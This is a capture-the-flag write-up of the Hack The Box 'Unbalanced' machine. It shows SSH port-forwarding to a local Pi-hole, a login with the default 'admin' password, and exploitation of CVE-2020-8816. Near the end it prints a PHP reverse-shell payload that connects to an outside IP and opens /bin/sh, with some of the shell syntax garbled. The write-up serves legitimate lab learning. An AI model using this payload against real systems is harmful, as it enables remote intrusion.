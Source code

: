 As we did the Intranet part from the TODO, without any second thought moved to the Pi-Hole part.

There was not much of an information from the LinEnum or my own enumeration, so I started to check the services running on localhost and as mentioned in the `TODO` the pi-hole services were running on localhost. And it is running on port 8080 I guess.

![Untitled](/img/htb-unbalanced/Untitled%2014.png)

Since there wasn't any way to access the pi-hole service except the option of portforwarding, I used the ssh to portforward the service running on the port `8080`.

![Untitled](/img/htb-unbalanced/Untitled%2015.png)

When visiting the page it throws me some error. So I started googling about the error.

![Untitled](/img/htb-unbalanced/Untitled%2016.png)

> [https://github.com/pi-hole/docker-pi-hole/issues/224#issuecomment-404368089](https://github.com/pi-hole/docker-pi-hole/issues/224#issuecomment-404368089)

Here he mention he tried `/admin` and that helped him fixed the problem and I added `/admin` and it worked, we got the Pi-hole dashboard.

![Untitled](/img/htb-unbalanced/Untitled%2017.png)

There is a way to login and we got the password already from `TODO` which is admin.

- `admin` was the password for pi-hole service.

![Untitled](/img/htb-unbalanced/Untitled%2018.png)

And Im logged in. At the bottom of the page it reveals the version of Pi-Hole, so I started searching for any exploits available for it.

![Untitled](/img/htb-unbalanced/Untitled%2019.png)

Here is the [Blog Post](https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/), which helped me throughout in understanding on how we can get the reverse shell.

Although, in order for this to worked out we can do that by providing a reverse shell payload in php and too had to be hex encoded such that it can be parsed without any issue as stated in the blog post.

The biggest difficulty in exploiting this vulnerability is that the user input is capitalized through a call to “strtoupper”. Because of this, no lower case character can be used in the resulting injection. So we cant just run the payload normally. First I checked with sending `aaaaaaaaaaaaa$PATH` and here see, we got the output and also the a's are capitalized.

![Untitled](/img/htb-unbalanced/Untitled%2020.png)

So I just created a payload that gives me reverse shell.

```bash
aaaaaaaaaaaa&&php -r '$sock=fsockopen("10.10.14.4",1234);exec("/bin/sh -i [&3 ](&3 )&3 2>&3");'
```

Using CyberChef, I just encoded to HEX.
